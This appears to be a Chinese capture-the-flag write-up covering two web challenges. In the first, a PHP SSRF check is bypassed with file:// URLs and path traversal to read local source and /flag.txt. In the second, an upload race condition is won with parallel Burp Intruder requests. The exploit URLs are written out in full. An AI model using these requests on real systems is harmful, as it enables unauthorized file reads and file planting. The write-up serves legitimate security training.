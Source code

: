 # 上午

## web

### URL

页面输入存在url参数 ?url=，怀疑是SSRF，读取源码：
```
/index.php?url=file://localhost/ctf.cybersec/../../var/www/html/index.php&submit=SUBMIT
```

```php
<?php
function curl($url){
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    curl_exec($ch);
    curl_close($ch);
}

if(isset($_GET['submit'])){
        $url = $_GET['url'];
        if (preg_match('/ctf\.cybersec/i', $url)) {
                if (preg_match('/\@|\#|\?/i', $url)) {
                        die('not @#?');
                } else {
      $parts = parse_url($url);
      if (empty($parts['host']) || $parts['host'] != 'localhost') {
            exit('host must be localhost');
      } else {

                        curl($url);
      }
                }
        } else {
        die("The URL must contain the 'ctf.cybersec'");
        }
}
?>
```

源码里不存在flag和提示，经过尝试找到flag在/flag.txt：
```
/index.php?url=file://localhost/ctf.cybersec/../flag.txt&submit=SUBMIT
```

---

### upload

文件上传提示200OK,但访问又是404,解法是条件竞争,burp开两个intruder窗口，一个持续上传，一个持续访问预期文件名，线程调高即可。
